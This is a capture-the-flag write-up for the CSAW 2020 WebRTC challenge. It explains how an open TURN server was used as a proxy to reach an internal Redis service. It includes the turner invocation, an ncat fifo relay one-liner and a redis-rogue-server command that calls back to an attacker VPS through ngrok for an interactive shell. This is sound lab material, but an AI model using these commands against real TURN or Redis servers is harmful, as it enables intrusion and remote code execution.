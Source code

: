 # CsawQuals2020 WebRTC 


# WEB real time chat

## Writeup Summary

- Challenge description
- Enumeration

### Challenge description

`I started playing around with some fancy new Web 3.1 technologies! This RTC tech looks cool, but there's a lot of setup to get it working... I hope it's all secure.`

`http://web.chal.csaw.io:4955`

they also included some files: `Dockerfile` , `supervisord.conf` and `app.py`.
supervisord.conf:

```
[supervisord]
nodaemon=true

[program:gunicorn3]
command=gunicorn3 --workers=10 -b 0.0.0.0:5000 app:app
autorestart=true
user=www

[program:coturn]
command=turnserver
autorestart=true
user=www

[program:redis]
command=timeout 60s redis-server --bind 0.0.0.0
autorestart=true
user=www

```

Dockerfile:

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]

```

### Enumeration

At first, we took a look at those files, which show up that there are 3 servers running, a Redis server (not exposed to external), gunicorn (flask web app server), and turn ( for webrtc ).

then we took a look at the web app, basically the frontend and what does it do,
we found that it's sending requests to the flask app (the API) (OBVIOUSLY), and the file `rtc.js` is the source of this request, we checked it out, and after reading the some code we found the turn communication config, the turn host `web.chal.csaw.io:3478`, the username and password (empty):

```js
const iceConfiguration = {
  iceServers: [
    {
      urls: "turn:web.chal.csaw.io:3478",
      username: "",
      credential: "",
    },
  ],
  // Doesn't work to force relay only transport, something must be busted...
  //iceTransportPolicy: "relay"
};
```

We were new to webRTC, so we started googling and trying to learn about it, and about the turn server and the attacks vectors we can apply on it, we tried also to find a vulnerabilities in the web API but we get nothing, then we found a really interesting article `https://www.rtcsec.com/2020/04/01-slack-webrtc-turn-compromise/#a-very-brief-introduction-to-the-turn-protocol` talking about how to abuse a turn server and get access to internal services like Redis in our case, a really nice article and attack they are using, it suits our case very well, but there is a problem, they are using an internal tool called `stunner` that we couldn't find, so we just start searching for alternatives, we found a PoC for the same attack called `turner: https://github.com/staaldraad/turner` by `staaldraad`, after we found this we tried very hard to make it working even with the a lot struggles (the internet connection in our country was so bad :/ ) even tho we make it, we started testing if it's working,

run turner with turner config we found earlier:
`./turner -server web.chal.csaw.io:3478 -u '' -p ''`

send a request to our vps:
`curl -x http://localhost:8080 http://x.x.x.x`

this worked so well, so we used the browser also to load the app `http://0.0.0.0:5000` using the proxy and worked just fine.

now we are sure the proxy is working but how we can connect to Redis?!

we found that we can use an HTTP proxy with ncat, so we crafted really nice chaining:
`rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|ncat -lkp 1337 2>&1 |ncat --proxy-type http --proxy localhost:8080 0.0.0.0 6379 > /tmp/f`

this is basically connect to redis service on host: `0.0.0.0`, port :`6379` using proxy `http://localhost:8080` and forward it that to the port: `1337`

we tested the connection using simple command Redis command `INFO`:
`{printf "INFO\r\n"; sleep 1} | nc localhost 1337 -vvv`
worked perfectly!!!

we also tried to connect using `redis-cli` but it didn't work, it started sending some random data, so we settled on the raw commands sending!

In this step we had to get rce or read a file (flag), we had two options, crafting rce by ourself using raw Redis commands (our last option :3) or use tools, the redis-cli didn't work so we couldn't use the regular Redis attack using the config command,

we found many tools, that uses the master-slave attack we tried some but I'm gonna mention only the tool that worked for us:
https://github.com/n0b0dyCN/redis-rogue-server

Making this tool working was an adventure, as I mentioned before we had an internet problem in our country :/ and the ssh wasn't even working to get into our VPS,
So here is how it has been done:

- we used digitalocean web console to set up the Redis `redis-rogue-server`.
- we had already turner connected and also the ncat connect to Redis as I mentioned before.
- the last step was to connect the Redis service from our local port `1337` to `redis-rogue-server` in our VPS, we used ngrok.

```
./redis-rogue-server.py --rhost [ngrok url] --rport [ngrok port] --lhost [vps public ip]
```

then choose the Interactive shell: `cat /flag.txt`
`flag{ar3nt_u_STUNned_any_t3ch_w0rks_@_all?}`

in this challenge, we learned a lot, it's a good challenge that we really loved, big thanks to CSAW CTF 2020 organizers.

